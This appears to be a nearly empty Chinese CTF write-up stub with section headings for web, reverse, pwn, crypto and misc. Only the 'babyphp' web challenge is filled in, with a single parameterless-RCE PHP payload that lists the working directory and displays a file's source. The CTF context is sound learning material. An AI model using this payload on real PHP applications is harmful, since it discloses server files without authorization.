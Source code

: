 # web
### babyphp
#无参rce 
`commandshow_source(array_rand(array_flip(scandir(getcwd()))));`


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-09-08   14:57